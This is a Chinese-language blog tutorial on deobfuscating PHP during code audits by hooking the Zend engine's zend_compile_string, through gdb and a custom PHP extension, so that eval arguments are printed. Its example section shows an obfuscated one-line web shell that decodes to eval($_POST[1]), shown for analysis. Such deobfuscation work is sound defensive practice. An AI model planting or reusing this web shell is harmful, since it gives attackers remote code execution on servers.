



0x01 背景
团队大佬在做PHP代码审计的时候发现PHP代码是被混淆过的。虽然可以通过自己手动解密可以还原原先的PHP代码，但是混淆过程比较复杂且自己写脚本还原非常麻烦。所以，我这边通过PHP底层的操作对混淆后的PHP代码进行还原。
0x02 PHP代码混淆
PHP代码混淆一般来说有两种方法：
本文我们主要讲解无需PHP扩展的代码混淆的解密。大多数的无需扩展的php代码混淆原理上都是使用eval进行代码的执行。如果我们能够得到eval函数的参数，即可获得解密后的代码。
不过，一般来说PHP的混淆都会通过多次eval来还原并执行php代码，所以我们可以通过hook PHP的eval函数来打印其参数来解密代码。
0x03 hook eval
PHP中的eval函数在Zend里需要调用zend_compile_string函数，我们可以通过调试看看zend_compile_string函数。
user@ubuntu ~/php-5.6.35/Zend ~ grep -rn "zend_compile_string" * zend.c:693: zend_compile_string = compile_string;
|
我们发现zend_compile_string函数其实就是compile_string函数。所以我们可以通过写一个简单的PHP代码，看能否在compile_string中获取到eval参数的值
<?php eval("phpinfo();"); ?>
|
首先我们编译一下下载好的PHP。注意，由于我们后面要进行调试，所以要在编译时加上-g参数，加调试符号。
./configure CFLAGS="-g" CXXFLAGS="-g" make -j16
|
接着我们使用gdb调试php程序。首先设置程序的参数，且在compile_string函数下好断点。
gdb-peda$ set args xxx.php gdb-peda$ b compile_string Breakpoint 1 at 0x6b4480: file Zend/zend_language_scanner.l, line 716.
|
然后让php程序跑起来

发现程序断下来后，我们发现compile_string的第一个参数source_string为php代码中eval函数的参数在Zend中的结构——即zval_struct。source_string.value.str.val即为参数的字符串形式。
- 通过修改
compile_string函数来打印eval的参数，代码如下
if (Z_TYPE_P(source_string) == IS_STRING) { len = Z_STRLEN_P(source_string); str = estrndup(Z_STRVAL_P(source_string), len); printf("\n==================DUMP_CODE====================\n"); printf("%s\n", str); printf("\n==================DUMP_CODE====================\n"); }
|
修改好之后重新编译php，运行被加密的php代码

解密后的PHP代码如下

可以看到已经完全还原了被混淆的PHP代码
编写php扩展的原理就是用我们的函数hook zend_compile_string函数，将函数的参数打印出来后再交还给zend_compile_string函数执行即可。
./ext/ext_skel --extname=decrypt_code
|
首先，我们写一个自己的hook函数。此函数的功能就是判断eval函数的参数是否为字符串，如果不是，则按原路径执行；如果是，则将参数打印出来后按照原路径执行。
static zend_op_array *decrypt_code_compile_string(zval *source_string, char *filename TSRMLS_DC) { int len; char *str; if (Z_TYPE_P(source_string) != IS_STRING) { return orig_zend_compile_string(source_string, filename TSRMLS_CC); } len = Z_STRLEN_P(source_string); str = estrndup(Z_STRVAL_P(source_string), len); printf("\n==========DUMP===========\n"); printf("%s", str); printf("\n==========DUMP===========\n"); return orig_zend_compile_string(source_string, filename TSRMLS_CC); }
|
接着，我们修改PHP扩展加载函数
PHP_MINIT_FUNCTION(decrypt_code) { REGISTER_INI_ENTRIES(); */ orig_compile_string = zend_compile_string; zend_compile_string = decrypt_code_compile_string; return SUCCESS; }
|
此函数的功能就是保存zend_compile_string函数的地址，接着用我们的hook函数替换zend_compile_string的地址。当eval函数调用zend_compile_string时，就调用了我们的hook函数。
最后，我们修改PHP扩展的卸载函数
PHP_MSHUTDOWN_FUNCTION(decrypt_code) { UNREGISTER_INI_ENTRIES(); */ zend_compile_string = orig_zend_compile_string; return SUCCESS; }
|
当这个扩展被卸载的时候将函数的hook解除。
最后，编译我们的扩展
phpize ./configure --with-php-config=/usr/local/php/bin/php-config make
|
接着，在php.ini中加上我们的扩展。
extension=decrypt_code.so
|
运行此脚本也可得到同样的输出。
0x04 利用其他函数还原的解密
其实，混淆代码的解密就是类似于代码执行。最终还是要执行PHP代码，而执行PHP代码的方法很多，除了eval函数还有assert、call_user_func、call_user_func_array、create_function等。这些函数的底层也是调用了zend_compile_string，所以也可以利用hook eval来还原混淆后的加密代码。
0x05 Example
一段示例代码。
<?php $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_(); ?>
|
运行一下，得到解密后的结果。
./php 3.php =====================DUMP_CODE======================== function __lambda_func(){eval($_POST[1]);} =====================DUMP_CODE========================
|
0x06 Refer
http://blog.evalbug.com/2017/09/21/phpdecode_01/
https://security.tencent.com/index.php/blog/msg/19
http://php-security.org/2010/05/13/article-decoding-a-user-space-encoded-php-script/index.html
https://lightless.me/archives/Zend-Extension-PHP-WAF.html
https://www.leavesongs.com/PENETRATION/unobfuscated-phpjiami.html